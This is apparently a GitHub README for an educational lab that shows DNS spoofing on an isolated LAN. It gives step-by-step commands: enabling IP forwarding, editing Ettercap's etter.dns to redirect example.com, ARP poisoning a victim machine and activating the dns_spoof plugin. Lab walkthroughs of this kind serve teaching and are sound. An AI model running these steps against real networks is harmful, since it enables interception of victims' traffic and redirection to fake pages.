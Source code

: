 # DNS-Spoofing
This lab will help you understand the working of DNS and ARP. This lab demonstrates how DNS queries can be intercepted and redirected to fake(self created) webpage.  
## Setup and Tools:
 - Kali Linux
 - Victim machine
 - Self created Isolated LAN
 - Apache2
 - Ettercap

## Notes
 - Devices to be simulated should be connected to the same network(no internet access)
 - Note the ip-address of the devices being used


## Methodology:
### 1. Find the ip_address of the host and victim machine
```bash
ifconfig #(For Linux)
```
```bash
ipcofig #(For Windows)
```
### 2. IP-Forwarding:  
 ```bash
sudo sysctl -w net.ipv4.ip_forward=1
```
### 3.Add ip-addresses to the etter.dns file
  ```bash
 sudo mousepad /etc/ettercap/etter.dns 
  ``` 
##### Now inside the file, Add:
```bash
 example.com A <ip-address> # ip-address of the host machine
``` 
#### Edit the etter.conf file:
```bash
sudo mousepad /etc/ettercap/etter.conf
```
#### Now inside the file :
```bash
ec_uid = 0             
ec_gid = 0
```
### 4. Apache server
```bash
sudo service apache2 start
```

### 5. Ettercap
```bash
sudo ettercap -G #(enters into the graphical mode
```
 - Steps:
   - Sniff → Unified Sniffing → Select your network interface
   - Hosts → Scan for hosts
   - Hosts → Host list → Add Kali and Windows IPs to Target 1 and Target 2
   - Mitm → ARP poisoning → Select “Sniff remote connections”
   - Plugins → Manage plugins → Double-click dns_spoof to activate
   

